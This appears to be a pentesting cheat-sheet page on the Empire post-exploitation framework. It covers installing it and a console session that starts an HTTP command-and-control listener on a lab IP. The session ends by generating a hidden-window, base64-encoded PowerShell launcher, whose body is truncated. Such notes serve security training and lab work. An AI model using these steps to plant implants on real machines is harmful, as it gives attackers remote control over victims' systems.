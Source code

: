 ```yaml
---
title: "Empire"
description: "Empire is a PowerShell and Python post-exploitation agent."
date: 2020-03-06T13:01:48+01:00
draft: false
tags: ['Frameworks','post-exploitation']
---
```


### Install

#### System

```bash
git clone https://github.com/EmpireProject/Empire
cd Empire
sudo ./setup/install.sh
```

#### Docker

```bash
docker pull empireproject/empire
```

### Examples

#### Reset DB

```bash
/empire/setup/reset.sh
```

#### setup basic listener and gen launcher

```bash
(Empire) > listeners
[!] No listeners currently active
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host http://10.10.14.24:80
(Empire: listeners/http) > set BindIP 10.10.14.24
(Empire: listeners/http) > set Port 80
(Empire: listeners/http) > execute
[*] Starting listener 'http'
 * Serving Flask app "http" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
[+] Listener successfully started!
(Empire: listeners/http) > back
(Empire: listeners) > launcher
[!] Please enter 'launcher <language> <listenerName>'
(Empire: listeners) > launcher powershell http
powershell -noP -sta -w 1 -enc  SQBmACgAJABQAF.....kAEsAKQApAHwASQBFAFgA
```

### Also see

* [Github project](https://github.com/EmpireProject/Empire)
* [Quickstart](http://www.powershellempire.com/?page_id=110)
* [Documentation](http://www.powershellempire.com/?page_id=83)
